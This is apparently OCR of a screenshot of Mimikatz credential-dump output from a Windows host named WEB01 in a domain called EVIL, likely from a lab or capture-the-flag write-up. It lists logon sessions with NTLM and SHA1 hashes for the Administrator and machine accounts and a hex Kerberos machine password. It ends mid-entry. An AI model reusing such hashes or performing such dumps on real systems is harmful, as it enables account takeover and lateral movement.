 ```
Logon Server      : WEB01
Logon Time        : 10/29/2020 3:49:29 PM
SID               : S-1-5-21-1607807028-3881622887-1966001951-500
   msv :
    [00000003] Primary
    * Username : Administrator
    * Domain   : WEB01
    * NTLM     : 87cc5fd863cb29f2d1fec46733f46274
    * SHA1     : af783494dc34399abf270527f45c62b89ab206bd
   tspkg :
   wdigest :
    * Username : Administrator
    * Domain   : WEB01
    * Password : (null)
   kerberos :
    * Username : Administrator
    * Domain   : WEB01
    * Password : (null)
   ssp :
   credman :

Authentication Id : 0 ; 69852 (00000000:000110dc)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 10/29/2020 3:47:10 PM
SID               : S-1-5-90-0-1
   msv :
    [00000003] Primary
    * Username : WEB01$
    * Domain   : EVIL
    * NTLM     : b07c09086397291fa00b568b3ea90f08
    * SHA1     : da29115a64631a8fd738e50df0290f62cc0a21ec
   tspkg :
   wdigest :
    * Username : WEB01$
    * Domain   : EVIL
    * Password : (null)
   kerberos :
    * Username : WEB01$
    * Domain   : evil.com
    * Password : 7d d4 b3 39 4a 47 39 c7 13 f0 83 25 db b0 34 c8 1c b9 fa b5 db 96 56 04 32 41 fc a8 20 86 f4 a9 34 f8 f3 42 f1 50 35 5d 0c 74 2c 26 20 fc f7 a7 07 db 5f fe f8 1a c8 90 9b 26 84 67 a4 6e bd 91 b9 79 7a 2d 77 10 e4 62 d8 76 a6 9d 21 67 da 4d 7f 84 bd 39 33 cc 3a f3 5b 9e 84 e3 a1 0d 20 ce ad 57 02 a7 0e ec 25 db 4e f1 89 d7 be 1a b6 58 a0 1f d5 21 1a 25 69 64 f4 14 58 30 f0 4b 15 11 ca b2 8d e5 20 38 e4 38 36 de 9b 04 9e 11 21 80 d2 da 78 10 f5 4c e9 6f 34 8d 84 da 06 db 96 66 29 35 fe 20 07 6f d5 62 a4 61 a8 ee 80 f1 79 97 5d f8 29 5f 8e 8b 26 bc 85 36 45 c9 75 91 f4 f4 c4 72 d9 49 ae f5 f4 da 14 64 f7 d6 b4 22 49 e4 8c c3 e5 ee 07 19 74 73 01 28 59 5e 96 7e 70 20 6f 01 3f 4d 26 8c d3 9b 36 2a a6 6e ca 40 9e 4f 
   ssp :
   credman :

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : WEB01$
Domain            : EVIL
Logon Server      : (null)
Logon Time        : 10/29/2020 3:47:10 PM
SID               : S-1-5-20
   msv :
    [00000003] Primary
    * Username : WEB01$
```